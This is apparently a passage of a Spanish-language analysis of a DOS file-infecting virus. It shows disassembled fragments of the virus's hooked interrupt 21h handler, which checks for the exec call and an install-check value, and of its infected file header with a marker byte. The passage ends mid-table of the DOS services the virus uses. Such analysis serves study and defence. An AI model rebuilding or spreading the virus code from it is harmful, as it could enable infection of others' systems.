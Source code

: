 El vector ya no es el mismo. 

Desensamblado del handler referenciado por el nuevo vector:

<pre class="ovf">-U 2195:0193
2195:0193 3DCDAB       CMP   AX,ABCD            ; inicio del handler viral
2195:0196 7408         JZ    01A0                               
2195:0198 3D004B       CMP   AX,4B00                            
2195:019B 7407         JZ    01A4                               
2195:019D E9A800       JMP   0248                               
2195:01A0 B89A02       MOV   AX,029A                            
2195:01A3 CF           IRET                                    
2195:01A4 E80000       CALL  01A7                               
2195:01A7 5D           POP   BP                                 
2195:01A8 81ED5F01     SUB   BP,015F                            
2195:01AC 9C           PUSHF                                     
2195:01AD 50           PUSH  AX                                 
2195:01AE 53           PUSH  BX                                 
2195:01AF 51           PUSH  CX                                 
2195:01B0 52           PUSH  DX                                 
2195:01B1 56           PUSH  SI                                 
2195:01B2 1E           PUSH  DS  
</pre>

Desensamblado del comienzo:

<pre class="ovf">-U 2195:0100
2195:0100 E94D00       JMP   0150               ; cabezal viral
2195:0103 56           PUSH  SI                 ; marca del virus: 'V'
2195:0104 01CD         ADD   BP,CX
2195:0106 21909090     AND   [BX+SI+9090],DX
2195:010A 90           NOP
2195:010B 90           NOP
2195:010C 90           NOP
2195:010D 90           NOP
2195:010E 90           NOP                            
</pre>

## API utilizada
Se utilizan 8 servicios de la DOS API mediante la interrupción de software 21h.

<div class="table-responsive">
<table class="table" >
   <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  